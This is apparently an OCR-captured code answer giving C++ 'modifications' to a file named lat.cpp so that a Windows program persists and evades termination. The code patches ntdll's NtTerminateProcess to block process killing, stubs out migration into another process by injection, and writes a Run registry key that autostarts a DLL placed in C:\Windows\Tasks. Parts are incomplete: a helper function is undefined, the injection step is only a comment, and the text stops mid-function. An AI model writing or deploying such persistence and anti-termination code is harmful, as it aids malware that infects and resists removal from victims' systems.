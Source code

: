### Example Modifications to `lat.cpp`:
Here’s an outline to enhance persistence and evade termination:

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <winternl.h>

// Function prototypes
typedef NTSTATUS(WINAPI* pNtTerminateProcess)(HANDLE, UINT);

// Prevent process from being terminated
NTSTATUS WINAPI HookedTerminateProcess(HANDLE hProcess, UINT uExitCode) {
    // Prevent termination
    return STATUS_ACCESS_DENIED;
}

// Hook TerminateProcess to prevent process from being terminated
void HookTerminateProcess() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtTerminateProcess pOriginalTerminateProcess = 
        (pNtTerminateProcess)GetProcAddress(hNtdll, "NtTerminateProcess");

    DWORD oldProtect;
    VirtualProtect(pOriginalTerminateProcess, sizeof(pOriginalTerminateProcess), PAGE_EXECUTE_READWRITE, &oldProtect);

    memcpy(pOriginalTerminateProcess, HookedTerminateProcess, sizeof(HookedTerminateProcess));

    VirtualProtect(pOriginalTerminateProcess, sizeof(pOriginalTerminateProcess), oldProtect, &oldProtect);
}

// Function to migrate to another process
bool MigrateToProcess(const std::string& processName) {
    // Find the target process ID
    DWORD targetPID = FindProcessId(processName);
    if (targetPID == 0) return false;

    // Inject and execute payload in the target process
    // (Similar to the previous example)

    return true;
}

// Add persistence by modifying registry autorun key
void AddPersistence() {
    HKEY hKey;
    RegOpenKeyEx(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &hKey);
    const char* valueName = "MyPersistentApp";
    const char* exePath = "C:\\Windows\\Tasks\\myinjection.dll";
    RegSetValueEx(hKey, valueName, 0, REG_SZ, (BYTE*)exePath, strlen(exePath) + 1);
    RegCloseKey(hKey);
}

int main() {
    // Hook TerminateProcess to prevent SCM from killing the process
    HookTerminateProcess();

    // Add persistence
    AddPersistence();
```